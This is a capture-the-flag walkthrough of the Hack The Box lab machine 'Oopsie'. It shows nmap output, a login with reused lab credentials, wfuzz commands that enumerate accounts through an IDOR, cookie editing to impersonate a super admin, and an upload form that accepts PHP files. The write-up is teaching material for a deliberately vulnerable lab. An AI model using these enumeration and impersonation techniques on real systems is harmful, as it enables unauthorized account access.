

# Exercise: Tampering with parameters on Oopsie

Another of the Starting Point machines is Oopsie, a Linux box. An nmap scan reveals SSH running on port 22 and Apache running on port 80.

```bash
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
| 256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_ 256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Navigating to the home page of the website, we see a site for MegaCorp Automotive which is a static page with no clickable links.


Viewing the source of the page, there is a reference to a login script at the URL /cdn-cgi/login/script.js. This script is empty, but if we navigate to the directory /cdn-cgi/login, we are presented with a login page.


We can try the user admin and the password that was recovered from the previous machine Archetype \(MEGACORP\_4dm1n!!\) with a guessed user “admin”, you gain access to the home page of the Repair Management System.


Enumerating this site, you find the Accounts page that lists details of the user accounts on the system. The url uses a parameter “id” which presumably refers to the id of the selected user.

```bash
http://oopsie.htb/cdn-cgi/login/admin.php?content=accounts&id=1
```

This is an IDOR vulnerability because we can change the id and get access to other accounts. The Accounts page \(Figure 3-11\) provides information about the Access ID which is probably the id of the User in the database of the system.



Cycling through a few numbers for the id shows the page changes and eventually a different user “john@tafcz.co.uk” is displayed with the “id=4”. We can brute force all of the users on the system by sequentially increasing the id field. To do this, you could use Burp Suite's Intruder function, but we will use wfuzz instead \(I will leave it as an exercise for you to try Burp's Intruder if you wish\).

Before we use wfuzz, we need some more information. The system knows we are logged in through the use of cookies. In the browser's developer tools, we can go to the Storage tab and click on Cookies. There are two cookies:

```bash
role: admin
user: 34322
```

We can supply this to wfuzz and run the command:

```bash
┌──[rin@parrot]─[~/boxes/StartingPoint/Oopsie]
└──╼ $wfuzz -b "user=34322; role=admin" -z range,1-100 "
http://oopsie.htb/cdn-cgi/login/admin.php?content=acc

ounts&id=FUZZ"
<SNIP>
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000021: 200 160 L 321 W 3595 Ch "21"
000000020: 200 160 L 321 W 3595 Ch "20"
000000001: 200 160 L 321 W 3623 Ch "1"
000000018: 200 160 L 321 W 3595 Ch "18"
000000015: 200 160 L 321 W 3595 Ch "15"
```

It will return a series of results which differ in the number of characters returned. Id 1 returns 3623 characters and id 21 returns 3595. If you try these in the browser, you will see that we are only interested in the ids that return more than 3595 characters. We can modify the wfuzz command to hide results where the number of characters is 3595 by using the --hh flag.

```bash
┌─[✗]─[rin@parrot]─[~/boxes/StartingPoint/Oopsie]
└──╼ $wfuzz -b "user=34322; role=admin" --hh 3595 -z range,1-100
<SNIP>
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000013: 200 160 L 321 W 3621 Ch "13"
000000001: 200 160 L 321 W 3623 Ch "1"
000000004: 200 160 L 321 W 3619 Ch "4"
000000030: 200 160 L 322 W 3634 Ch "30"
000000023: 200 160 L 321 W 3620 Ch "23"
```

We get 5 results for the values of ids between 1 and 100. Checking these ids in the request in the browser, we eventually get the user superadmin for id=30:

```bash
Access ID Name Email
86575 super admin superadmin@megacorp.com
```

This is convenient because if we go to the page Uploads, it returns a message saying that “This action require super admin rights”.

In the browser, you can go back to the Storage tab and edit the cookie to replace the user value with “86575”. The role cookie doesn't seem to matter and we can leave it. Having done this, clicking on Uploads now grants us access to the page! Note that being able to change the cookie so simply to masquerade as another user is a separate broken access control vulnerability to the ability to enumerate users by parameter tampering.

Looking at the uploads page, it suggests that what it is expecting to be uploaded are images. However, it accepts a php file without modification. We could use gobuster to find out if there is an uploads directory, but simply trying /uploads gives us a forbidden status code which means that there is a directory called that and it is the likely place the files will be uploaded to.

We will come back to finishing this machine off once we have covered exploitation and getting reverse shells. It is pretty straightforward however and once on the box, it is a simple matter of finding credentials for another user, "robert" \(password: M3g4C0rpUs3r!\) who can SSH onto the box.

